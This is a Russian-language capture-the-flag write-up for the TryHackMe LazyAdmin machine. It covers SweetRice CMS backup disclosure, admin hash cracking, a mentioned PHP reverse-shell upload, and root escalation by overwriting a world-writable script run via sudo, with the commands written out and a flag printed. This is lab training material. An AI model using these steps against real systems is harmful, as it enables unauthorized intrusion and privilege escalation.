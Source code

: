 # LazyAdmin TryHackMe Easy machine

Попробуем прогнать `SweetRice` через searchsploit:
```
searchsploit sweetrice                                                                                                                              Fri 30 May 2025 07:03:41 PM EEST
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                                                                                | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                             | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                                                                              | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                    | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                           | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                      | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                  | php/webapps/14184.txt
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Меня заинтересовала строка с `SweetRice 1.5.1 - Backup Disclosure` - возможность просматривать бекапы сервера. 
``` cat /usr/share/exploitdb/exploits/php/webapps/40718.txt


Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip⏎
```

Попробуем зайти на `/inc/mysql_backup`
![](Pasted%20image%2020250530195516.png)
И видим `Not Found`

Попробуем зайти с директории уязвимого сервися (SweetRice) `/content/inc/mysql_backup`
и получаем файл даты базы

![](Pasted%20image%2020250530200040.png)

 скачав дату базы мы видим
 ![](Pasted%20image%2020250530200245.png)
 ![](Pasted%20image%2020250530200339.png)
 видим юзеров и в первом скрине, хэш.
расшифровываем хэщ
![](Pasted%20image%2020250530200427.png)

и получаем самый сложный пароль в вашей жизни..
 теперь настало время входить в админ панель
 у cms админка по as
 в нашем случае /content/as
 ![](Pasted%20image%2020250530201059.png)
 дальше здесь вставляем php revers shell

после входа в юзера www-data
ls /home
и видим юзера itguy 
cat /home/itguy/user.txt
и получаем наш заветный флаг
`THM{63e5bce9271952aad1113b6f1ac28a07}`
дальше самое интересное

# taken rooooot

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl  
```


видим что можем запускать скрипт перла с судо без пароля

Стартовая точка:

- У пользователя www-data есть возможность запускать без пароля команду:
    
    sudo /usr/bin/perl /home/itguy/backup.pl
    
- Содержимое backup.pl:
    
    #!/usr/bin/perl  
    system("sh", "/etc/copy.sh");
    
- Скрипт /etc/copy.sh принадлежит root, но имеет права на запись для всех: -rw-r--rwx
    

Эксплуатация:

1. Подменили содержимое /etc/copy.sh:
```
echo '#!/bin/bash' > /etc/copy.sh
echo '/bin/bash' >> /etc/copy.sh
chmod +x /etc/copy.sh
```
Запустили уязвимый скрипт:
`sudo /usr/bin/perl /home/itguy/backup.pl`

Получили интерактивную bash-сессию от root.
 дальше просто `cat /root/root.txt`
